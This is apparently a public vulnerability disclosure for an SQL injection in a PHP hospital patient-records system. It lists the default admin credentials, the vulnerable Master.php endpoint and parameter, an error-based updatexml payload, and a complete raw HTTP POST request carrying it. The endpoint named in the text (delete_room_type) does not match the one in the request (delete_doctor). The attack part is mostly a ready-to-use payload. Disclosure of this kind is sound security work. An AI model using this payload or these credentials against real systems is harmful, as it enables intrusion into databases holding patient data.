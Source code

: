# Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/classes/Master.php?f=delete_room_type

Vulnerability location: /hprms/classes/Master.php?f=delete_room_type, id

Current database name: hprms_db ,length is 8

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /hprms/classes/Master.php?f=delete_doctor HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171824257-95a504b1-e09e-4d78-84bf-d1f981947377.png)
